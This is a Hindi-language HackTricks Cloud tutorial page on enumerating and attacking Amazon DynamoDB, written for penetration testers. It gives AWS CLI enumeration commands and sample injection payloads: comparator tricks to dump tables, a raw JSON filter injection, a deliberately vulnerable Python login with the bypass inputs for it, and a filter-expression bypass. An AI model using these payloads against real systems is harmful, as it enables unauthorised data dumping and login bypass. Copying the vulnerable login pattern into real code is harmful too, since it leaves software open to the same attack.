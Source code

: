 # AWS - DynamoDB Enum

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## DynamoDB

### Basic Information

Amazon DynamoDB को AWS द्वारा **पूर्ण रूप से प्रबंधित, सर्वर रहित, की-मान NoSQL डेटाबेस** के रूप में प्रस्तुत किया गया है, जो उच्च प्रदर्शन वाले अनुप्रयोगों को उनके आकार की परवाह किए बिना शक्ति प्रदान करने के लिए तैयार किया गया है। यह सेवा मजबूत सुविधाओं की गारंटी देती है, जिसमें अंतर्निहित सुरक्षा उपाय, निरंतर बैकअप, कई क्षेत्रों में स्वचालित प्रतिकृति, एकीकृत इन-मेमोरी कैशिंग, और सुविधाजनक डेटा निर्यात उपयोगिताएँ शामिल हैं।

DynamoDB के संदर्भ में, पारंपरिक डेटाबेस स्थापित करने के बजाय, **तालिकाएँ बनाई जाती हैं**। प्रत्येक तालिका को **तालिका की प्राथमिक कुंजी** के एक अभिन्न घटक के रूप में **पार्टीशन कुंजी** का निर्दिष्ट करना अनिवार्य है। यह पार्टीशन कुंजी, जो मूल रूप से एक **हैश मान** है, वस्तुओं की पुनर्प्राप्ति और विभिन्न होस्टों के बीच डेटा के वितरण में महत्वपूर्ण भूमिका निभाती है। यह वितरण डेटाबेस की स्केलेबिलिटी और उपलब्धता बनाए रखने के लिए महत्वपूर्ण है। इसके अतिरिक्त, डेटा संगठन को और अधिक परिष्कृत करने के लिए **सॉर्ट कुंजी** को शामिल करने का विकल्प भी है।

### Encryption

डिफ़ॉल्ट रूप से, DynamoDB एक KMS कुंजी का उपयोग करता है जो **Amazon DynamoDB की है,** न कि AWS द्वारा प्रबंधित कुंजी जो कम से कम आपके खाते की है।

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### Backups & Export to S3

**तालिका बैकअप** उत्पन्न करने के लिए **अनुसूची** बनाना या उन्हें **मांग पर** बनाना संभव है। इसके अलावा, एक तालिका के लिए **पॉइंट-इन-टाइम रिकवरी (PITR)** सक्षम करना भी संभव है। पॉइंट-इन-टाइम रिकवरी आपके DynamoDB डेटा के निरंतर **बैकअप** प्रदान करती है **35 दिनों** के लिए ताकि आप आकस्मिक लिखने या हटाने के संचालन से सुरक्षा कर सकें।

**तालिका के डेटा को S3 में निर्यात करना** भी संभव है, लेकिन तालिका में **PITR सक्षम** होना चाहिए।

### GUI

स्थानीय Dynamo सेवाओं के लिए एक GUI है जैसे [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/), [dynalite](https://github.com/mhart/dynalite), [localstack](https://github.com/localstack/localstack), आदि, जो उपयोगी हो सकते हैं: [https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### Enumeration
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### अनधिकृत पहुँच

{% content-ref url="../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### प्रिवेस्क

{% content-ref url="../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### पोस्ट एक्सप्लोइटेशन

{% content-ref url="../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### स्थिरता

{% content-ref url="../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB इंजेक्शन

### SQL इंजेक्शन

DynamoDB डेटा तक पहुँचने के लिए **SQL सिंटैक्स** के साथ तरीके हैं, इसलिए, सामान्य **SQL इंजेक्शन भी संभव हैं**।

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL इंजेक्शन

DynamoDB में विभिन्न **शर्तें** डेटा प्राप्त करने के लिए उपयोग की जा सकती हैं, जैसे कि एक सामान्य NoSQL इंजेक्शन में यदि डेटा प्राप्त करने के लिए **अधिक शर्तों को जोड़ना संभव है** तो आप छिपा हुआ डेटा प्राप्त कर सकते हैं (या पूरी तालिका को डंप कर सकते हैं)।\
आप यहाँ DynamoDB द्वारा समर्थित शर्तें पा सकते हैं: [https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API_Condition.html)

ध्यान दें कि **विभिन्न शर्तें** समर्थित हैं यदि डेटा **`query`** के माध्यम से या **`scan`** के माध्यम से पहुँचाया जा रहा है।

{% hint style="info" %}
वास्तव में, **Query** क्रियाओं को काम करने के लिए **प्राथमिक** कुंजी में **शर्त "EQ" (बराबर)** निर्दिष्ट करने की आवश्यकता होती है, जिससे यह **NoSQL इंजेक्शन के लिए कम संवेदनशील** हो जाता है (और ऑपरेशन को बहुत सीमित भी बनाता है)।
{% endhint %}

यदि आप **तुलना** को बदल सकते हैं या नए जोड़ सकते हैं, तो आप अधिक डेटा प्राप्त कर सकते हैं।
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
{% embed url="https://book.hacktricks.xyz/pentesting-web/nosql-injection" %}

### कच्चा Json इंजेक्शन

{% hint style="danger" %}
**यह भेद्यता dynamodb Scan Filter पर आधारित है जो अब अप्रचलित है!**
{% endhint %}

**DynamoDB** **Json** ऑब्जेक्ट्स को DB के अंदर डेटा खोजने के लिए स्वीकार करता है। यदि आप पाते हैं कि आप खोज के लिए भेजे गए json ऑब्जेक्ट में लिख सकते हैं, तो आप DB का डंप बना सकते हैं, सभी सामग्री।

उदाहरण के लिए, एक अनुरोध में इंजेक्ट करना जैसे:

{% code overflow="wrap" %}
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

एक हमलावर कुछ इस तरह इंजेक्ट कर सकता है:

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

"EQ" स्थिति को ठीक करें जो ID 1000 के लिए खोज कर रहा है और फिर सभी डेटा के लिए देख रहा है जिनका Id स्ट्रिंग 0 से बड़ा है, जो कि सभी है।

एक **कमजोर उदाहरण लॉगिन का** हो सकता है:
```python
scan_filter = """{
"username": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
},
"password": {
"ComparisonOperator": "EQ",
"AttributeValueList": [{"S": "%s"}]
}
}
""" % (user_data['username'], user_data['password'])

dynamodb.scan(TableName="table-name", ScanFilter=json.loads(scan_filter))
```
यह निम्नलिखित के प्रति संवेदनशील होगा:
```
username: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
password: none"}],"ComparisonOperator": "NE","AttributeValueList": [{"S": "none
```
### :property Injection

कुछ SDKs एक स्ट्रिंग का उपयोग करने की अनुमति देते हैं जो प्रदर्शन किए जाने वाले फ़िल्टरिंग को इंगित करती है जैसे: 

{% code overflow="wrap" %}
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

आपको यह जानना आवश्यक है कि DynamoDB में **फिल्टर एक्सप्रेशंस** में **वस्तुओं** को स्कैन करते समय एक विशेषता **मान** को **बदलने** के लिए, टोकन को **`:`** वर्ण से **शुरू** होना चाहिए। ऐसे टोकन को **रनटाइम** में वास्तविक **विशेषता मान** से **बदला** जाएगा।

इसलिए, पिछले जैसे एक लॉगिन को इस तरह से बायपास किया जा सकता है:
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाएँ**](https://github.com/sponsors/carlospolop) देखें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **हमारे** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)** का पालन करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github रिपोजिटरी में PRs सबमिट करें।

</details>
{% endhint %}
